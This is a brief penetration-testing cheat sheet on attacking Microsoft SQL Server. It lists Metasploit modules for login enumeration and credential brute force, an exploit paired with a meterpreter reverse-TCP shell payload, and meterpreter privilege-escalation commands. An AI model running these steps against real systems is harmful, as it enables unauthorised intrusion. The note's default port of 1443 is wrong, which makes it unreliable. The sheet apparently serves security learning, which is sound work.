 # Microsoft SQL

MSSQL is the MS equivalent of MySQL, it runs on port 1443 and as the default creds **sa:**.

A way of checking it out is to use metasploit or hydra:

For metasploit you can use the modules:
- use auxiliary/admin/mssql/mssql_enum_sql_logins
- use auxiliary/admin/mssql/mssql_exec (brute force with dict)

When figterprinting with nmap you will likely find the server version running.

For Server 2012 there are various exploits available, one of them giving a metepreter shell:

- exploit/windows/mssql/mssql_clr_payload

*Warning the payload default is x86 but you can be dealing with and x64 device and the exploit will fail in that case change the payload version*

- set PAYLOAD windows/x64/meterpreter/reverse_tcp

In meterpreter we can change to native shell with the shell command.

## Privilege escalation

In case you dont have access to certain files return to your meterpreter shell:

- getuid (get info on your user)
- getprivs (get user privileges)
- getsystem (elevate privileges)
